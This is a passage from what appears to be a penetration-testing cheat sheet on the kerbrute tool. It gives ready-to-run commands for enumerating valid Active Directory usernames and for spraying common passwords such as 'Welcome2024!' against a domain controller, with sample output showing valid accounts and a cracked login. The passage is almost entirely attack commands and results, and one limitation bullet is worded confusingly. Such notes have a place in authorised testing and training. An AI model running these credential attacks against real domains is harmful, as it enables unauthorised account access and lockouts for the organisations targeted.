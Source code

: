 **Limitation:**
- Only works if Kerberos pre-auth required (default for most accounts)
- Won't find accounts with "Do not require Kerberos preauthentication" disabled

---

## Two Essential Commands

### 1. Username Enumeration (Most Important)

**When:** You have NO credentials, need valid usernames

```bash
# Basic enumeration
kerbrute userenum --dc 10.10.10.10 -d corp.local users.txt

# With verbose output
kerbrute userenum --dc 10.10.10.10 -d corp.local users.txt -v

# Save valid users to file
kerbrute userenum --dc 10.10.10.10 -d corp.local users.txt -o valid-users.txt
```

**Output:**
```
2025/10/24 18:35:51 >  Using KDC(s):
2025/10/24 18:35:51 >   10.10.10.10:88

2025/10/24 18:35:52 >  [+] VALID USERNAME:       administrator@corp.local
2025/10/24 18:35:52 >  [+] VALID USERNAME:       john.doe@corp.local
2025/10/24 18:35:52 >  [+] VALID USERNAME:       sqlservice@corp.local
2025/10/24 18:35:53 >  Done! Tested 1000 usernames (3 valid) in 2.156 seconds
```

**Time: 1-2 minutes for 1000 usernames**

---

### 2. Password Spraying

**When:** You have valid usernames, want to find weak passwords

```bash
# Single password spray
kerbrute passwordspray --dc 10.10.10.10 -d corp.local valid-users.txt 'Welcome2024!'

# Verbose output
kerbrute passwordspray --dc 10.10.10.10 -d corp.local valid-users.txt 'Password123' -v

# Save successful logins
kerbrute passwordspray --dc 10.10.10.10 -d corp.local users.txt 'Summer2024!' -o sprayed.txt
```

**Output:**
```
2025/10/24 18:36:15 >  Using KDC(s):
2025/10/24 18:36:15 >   10.10.10.10:88

2025/10/24 18:36:16 >  [+] VALID LOGIN:  john.doe@corp.local:Welcome2024!
2025/10/24 18:36:17 >  Done! Tested 50 logins (1 successes) in 1.523 seconds
```
